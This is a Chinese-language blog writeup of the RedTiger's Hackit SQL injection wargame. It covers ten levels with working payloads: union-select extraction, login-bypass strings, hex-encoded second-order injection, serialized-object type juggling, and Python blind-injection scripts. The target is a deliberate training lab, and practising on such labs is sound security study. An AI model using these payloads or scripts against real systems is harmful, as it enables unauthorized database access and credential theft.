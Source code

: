 ```yaml
---
layout:		post
title:		RedTigers Hackit
subtitle:	writeup
data:		2016-05-18
author:		"dogewatch"
header-img:	"img/post-bg-2015.jpg"
tags:
    - web
---
```


>

## LEVEL 1
很简单的注入，在cat=1后面用and 1=1, and 1=2判断存在注入后上order by，然后union select注出数据

```
http://redtiger.labs.overthewire.org/level1.php?cat=0 union select 1,2,username,password from level1_users
```

## LEVEL 2
万能密码，用户名a' or ''=' ，密码a' or ''='

## LEVEL 3
这题名叫get an error，刚开始以为是报错注入，无果，后来发现是利用php的报错得到部分源码。

```
http://redtiger.labs.overthewire.org/level3.php?usr[]=MTI5MTY0MTczMTY5MTc0
Warning: preg_match() expects parameter 2 to be string, array given in /var/www/hackit/urlcrypt.inc on line 21
```

查看这个inc文件，可以看到usr参数的加解密方法。将字符串```' union select 1,username,3,4,5,password,7 from level3_users where username='Admin```加密后得到Admin的密码。

## LEVEL 4
这题是个盲注，用and 1=1, and 1=2判断存在注入后，用length判断长度，然后写脚本一位一位地跑出数据。

```
#!/usr/bin/env python
# encoding: utf-8


import requests
s = requests.session()

str='abcdefghijklmnopqrstuvwxyz0123456789'
headers = {'Cookie': 'level2login=; level3login=; level4login='}
result = ''

for x in range(1, 18):
    for i in str:
        url="http://redtiger.labs.overthewire.org/level4.php?id=0 union select 1,keyword from level4_secret where ascii(substring(keyword,%i,1))= %i" % (x, ord(i))
        r = s.get(url, headers=headers)
        if "1 rows" in r.content:
            print i
            result += i
            break

print result
```

## LEVEL 5
常规的万能密码在这不好使，看到提示说密码是32位md5值，估计是后台对第二个值做了长度判断，于是用如下payload成功登录。

```
username=' union select 1,md5(1)#&password=1&login=Login
```

## LEVEL 6
试出sql返回数据有5列，然后发现左右括号被过滤了，填充字符发现报错：

```
http://redtiger.labs.overthewire.org/level6.php?user=0 union select 1,'a',3,4,5
Warning: mysql_fetch_object(): supplied argument is not a valid MySQL result resource in /var/www/hackit/level6.php on line 27 User not found
```

将字符转为十六进制表示方式就没有爆粗了，但是什么数据也没有，当试到‘Admin‘的十六进制表示时发现有反应了，于是猜测是用第二列的数据又做了一次查询。然后将一下字符串转为十六进制填充到第二列中得到数据：

```
' union select 1,username,3,password,5 from level6_users where id=3#
```

## LEVEL 7

这题让我学到了一个新姿势。首先发现除了提示的几个函数被过滤掉了外，常用的几个注释符也被过滤了，不过影响不大，先用```search=Google%' and 1=1 and '%'='&dosearch=search!```判断注入点，然后用```Google%' and length(news.autor)=17 and '%'='```找出长度。接着就是用脚本盲注了，除了被过滤的几个函数外，我们可以用locate函数来一位一位地判断数据。在注入过程中发现这个表的内容大小写不敏感，查资料知道用```collate latin1_general_cs```可以区分出大小写(新姿势get)，下面是脚本：

```
#!/usr/bin/env python
# encoding: utf-8


import requests
s = requests.session()

str='abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ'
headers = {'Cookie': 'level2login=; level3login=; level4login=d; level5login=; level6login=; level7login='}
result = ''
flag = False

for x in range(1, 18):
    for i in str:
        url="http://redtiger.labs.overthewire.org/level7.php"
        search = "Google%%' and locate('%s',news.autor collate latin1_general_cs,%d)=%d and '%%'='" % (i, x, x)
        payload = {'search': search, 'dosearch': 'search!'}
        print payload
        r = s.post(url, headers=headers, data=payload)
        if "SAN FRANCISCO" in r.content:
            flag = True
            result += i
            print result
            break

print result
```

## LEVEL 8
挨个加引号发现email处存在注入，根据报错的内容可以看到这个sql语句的大致格式，然后构造

```
email=', name=password,icq='&name=Hans&icq=12345&age=25&edit=Edit
```

可以让name处显示password。

## LEVEL 9
挨个测试发现textarea处存在注入，填入```'),('```发现报错：Column count doesn't match value count at row 2，随后试出后面的括号中有3列数据，于是构造payload:

```
'), ((select username from level9_users limit 1), (select password from level9_users limit 1),'
```

## LEVEL 10
点击login，抓包发现login参数的数据长得像base64加密的内容，解密得到：
```a:2:{s:8:"username";s:6:"Monkey";s:8:"password";s:12:"0815password";}```
将username的值改为TheMaster，注意前面的长度。但是password的值不知道怎么弄，尝试改为bool类型，没想到居然过了。

## 尾声
因为周末有个比赛，而一直以来注入这一块就是短板，所以打算找个东西练练手，学到了新的姿势很开森啊。